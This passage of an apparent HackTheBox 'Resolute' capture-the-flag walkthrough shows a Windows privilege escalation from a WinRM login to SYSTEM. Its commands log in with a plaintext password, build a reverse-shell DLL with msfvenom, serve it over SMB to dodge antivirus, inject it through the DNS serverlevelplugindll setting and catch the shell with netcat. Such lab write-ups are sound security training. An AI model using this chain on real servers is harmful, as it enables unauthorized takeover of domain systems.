 And these credentials work!

```
┌──(root💀kali)-[/home/kali/HackTheBox/Resolute]
└─# evil-winrm -i 10.10.10.169 -u 'ryan' -p 'Serv3r4Admin4cc123!'                                                                        
Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> 
```

Now we get to test our brainstormed attack vector. But before we do that, a little bit of enumeration into ryan's Desktop shows a note that says that system changes affecting everything but the administrator account will be reverted after a minute. So we're going to try to chain the commands that we will use to make sure nothing gets messed up. First, we need to generate a dll payload, then point the serverlevelplugindll to the malicious dll, then restart the DNS service. While this all happens, on our attacking machine, we set up a netcat listener to catch the callback. First, for payload generation and listener setup, run the following commands:

```
┌──(root💀kali)-[/home/kali/HackTheBox/Resolute]                                                                                         
└─# nc -nvlp 4444
┌──(root💀kali)-[/home/kali/HackTheBox/Resolute]                                                       
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.6 LPORT=4444 --platform=windows -f dll > bruh.dll
┌──(root💀kali)-[/home/kali/HackTheBox/Resolute]                                                                                         
└─# smbserver.py share .

//make sure to modify the LHOST to your ip, the LPORT to your port of choice, and the dll to the name of your choice
```

Then, as ryan, run these commands:

```
*Evil-WinRM* PS C:\> cmd /c "dnscmd RESOLUTE.MEGABANK.LOCAL /config /serverlevelplugindll \\10.10.16.6\\share\bruh.dll && sc \\RESOLUTE stop dns && sc \\RESOLUTE start dns"

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

//Note that rather than copying the file directly on the system, it is instead accessed through smb. This is to avoid any potential //antivirus that will recognize the payload if it were to be placed on the machine directly. Also make sure that the call to the smb //share matches your ip address that you started the smb server on.
```

Checking back on our listener, we got SYSTEM. Sweet.
